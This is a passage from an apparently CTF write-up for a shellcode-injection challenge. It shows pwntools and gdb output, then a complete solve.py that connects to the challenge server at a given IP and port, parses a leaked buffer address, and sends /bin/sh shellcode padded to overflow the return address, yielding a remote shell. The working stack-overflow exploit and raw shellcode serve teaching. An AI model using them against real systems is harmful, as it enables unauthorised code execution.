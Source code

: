 ```
➜  python solve.py
[+] Starting local process './chall': pid 12719
[*] running in new terminal: /usr/bin/gdb -q  "./chall" 12719 -x "/tmp/pwnqxBTc2.gdb"
[+] Waiting for debugger: Done
[*] Switching to interactive mode
$ whoami
thefox
$ 
```
and in gdb:
```
gef➤  c
Continuing.
process 12719 is executing new program: /bin/dash
```
Thus,we have successfully done a shellcode injection challenge. Pat yourself on the back :)
To turn this to a simple server exploit, just comment out the gdb.attach , process statements, and add a new remote object statement. Everything else stays the same. This is so easy.
```py
➜  cat solve.py
from pwn import *

# p = process('./chall')
# gdb.attach(p)
p = remote("163.172.144.42", 10180)
line = p.recv()
# the address of the buffer
addr = int(line[len("What's this:"):-2],16) # after colon, except last two characters i.e. ?, '\n' or newline
# the shellcode
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
# our payload
payload = shellcode + "A"*(100-len(shellcode)) + p32(addr)
# send it!
p.send(payload)

p.interactive()
```
Run this:
```
➜  python solve.py
[+] Opening connection to 163.172.144.42 on port 10180: Done
[*] Switching to interactive mode
$ ls
Dockerfile
beast.toml
chall
flag.txt
static
$  
```
That is the solution to this challenge. Pretty fun, right?
